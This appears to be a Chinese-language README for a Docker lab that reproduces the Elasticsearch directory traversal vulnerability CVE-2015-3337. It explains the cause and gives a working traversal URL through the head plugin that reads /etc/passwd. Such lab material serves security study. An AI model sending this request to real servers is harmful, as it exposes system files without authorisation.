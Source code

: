 # ElasticSearch 目录穿越漏洞（CVE-2015-3337）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.4

影响版本：1.4.5以下/1.5.2以下

## 原理

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 测试环境

编译及运行测试环境

```
docker compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](1.png)

## head插件

head插件提供了elasticsearch的前端页面，访问 `http://your-ip:9200/_plugin/head/` 即可看到，不多说了。
